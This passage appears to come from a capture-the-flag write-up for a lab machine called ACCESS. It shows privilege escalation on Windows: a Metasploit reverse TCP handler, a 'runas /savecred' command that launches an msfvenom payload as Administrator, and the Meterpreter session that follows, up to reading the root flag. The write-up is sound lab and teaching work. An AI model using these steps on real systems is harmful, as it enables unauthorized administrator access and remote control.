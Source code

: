 msf5 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/handler) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on <local IP address>:4444 
msf5 exploit(multi/handler) > 
```
*NOTE: It's important the payload you set is the same used in msfvenom

Fourth, now that metasploit is ready, all we have to do is execute the ```shell.exe``` as administrator. Doing a little research on runas with savecred available. I come across [this website](https://www.dummies.com/programming/networking/network-administration-runas-command/) detailing on how to use the runas command. In short, I do this command to execute the program:

```
C:\Users\security\Desktop>runas /savecred /user:Administrator "C:\Users\security\desktop\shell.exe"
```

Checking back to my other terminal which has metasploit open, there's a reverse TCP handler!

```
[*] Meterpreter session 1 opened
```

Now on metasploit, we can do ```sessions -i 1``` to go into interactive mode with session 1.

Doing a ```sysinfo``` check confirms that I'm on ACCESS with the correct OS and version. Last, doing ```shell``` to spawn a windows shell and then doing ```whoami``` on that shell reveals that we are ```Administrator```!

![image](https://user-images.githubusercontent.com/41026969/71541103-af4dea00-2921-11ea-9a02-0207cc721325.png)

Tracing back earlier to the ```C:\Users\``` directory, we see there's an ```Administrator``` directory that, this time, I can get into. Going in the ```Administrator\Desktop``` directory and doing a ```dir /A``` check, we find the root flag!

![image](https://user-images.githubusercontent.com/41026969/71541141-2be0c880-2922-11ea-907f-a36dec891284.png)

### Flags

User: ```C:\Users\security\Desktop\user.txt```

Root: ```C:\Users\Administrator\Desktop\root.txt```